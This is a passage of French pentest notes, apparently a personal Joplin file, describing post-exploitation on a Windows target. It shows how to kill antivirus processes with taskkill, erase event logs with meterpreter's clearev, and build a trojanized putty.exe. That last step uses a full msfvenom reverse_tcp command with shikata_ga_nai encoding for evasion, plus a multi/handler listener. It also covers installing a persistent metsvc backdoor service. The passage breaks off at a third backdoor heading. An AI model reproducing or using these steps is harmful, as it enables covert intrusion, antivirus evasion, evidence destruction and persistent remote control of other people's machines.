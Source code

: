     5. Si en faisant tasklist /svc il reste des processus avg (ou autre antivirus), pas grave, faut juste les kill. Par exemple, faire la commande taskkill /F /IM "avg*" va stopper directement les processus sans avertissement.
        

### Supprimer les logs (après avoir désactiver le fw et l'av :

- clearev : Dans meterpreter, pour sup tout les logs.

BackDoor :

Première backdoor :

On utilise msfvenom pour charger le payload, l'encoder pour ne pas qu'il se fasse repéré trop facilement par les firewall ou autre. Puis l'implémenter.

[msfvenomoptions.txt](file:///home/wpkaliuser/.config/joplin-desktop/resources/d42ab51e94e42507263eda8461879caf.txt "file:///home/wpkaliuser/.config/joplin-desktop/resources/d42ab51e94e42507263eda8461879caf.txt")

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.105 -e x86/shikata_ga_nai -i 6 -f exe -x /root/Desktop/putty.exe -o /root/Desktop/virusputty.exe`

Explication de la commande :

- -p spécifie le payload à utiliser, dans ce cas, windows/meterpreter/reverse_tcp (c'est ce qui permettra de se reconnecter à la cible).
- LHOST spécifie votre adresse IP.
- -e spécifie l'encodeur à utiliser, dans ce cas, x86/shikata_ga_nai. show encoders pour voir
- -i spécifie le nombre d'itérations pour l'encodeur.
- -f spécifie le format de sortie, dans ce cas, exe.
- -x spécifie le fichier exécutable existant à utiliser comme exécutable hôte (ici, putty.exe).
- -o spécifie le nom du fichier de sortie.

Après ca, la cible doit la télécharger.

Pour voir si elle fonctionne, il faut quitter metasploit pour se deco de la target. Ensuite, en retournant sur metasploit, faire la commande use exploit/multi/handler, set payload/que/jai/utilisé, mettre l'adresse target en lhost puis faire exploit.

Seconde backdoor :

On utilise le module metsvc pour installer une backdoor dans les processus de la target. On pourra donc y acceder dès que la target est up.

Dans la session meterpreter, faire run metsvc -h pour voir les options ou juste run metsvc pour installer le service sur la target.

Le service attend alors une connexion. On va donc, en dehors de meterpreter (peut etre un autre jour oú la target est up), faire use exploit/multi/handler, utilise un payload metsvc (y'en a plusieurs) puis désigner le lport (31337 par exemple) et le rhost. Tu peux faire show options pour voir. Enfin, faire exploit.

A la fin de l'instrusion, retirer le programme de la cible en faisant run metsvc -r sur le shell meterpreter

Troisième backdoor :
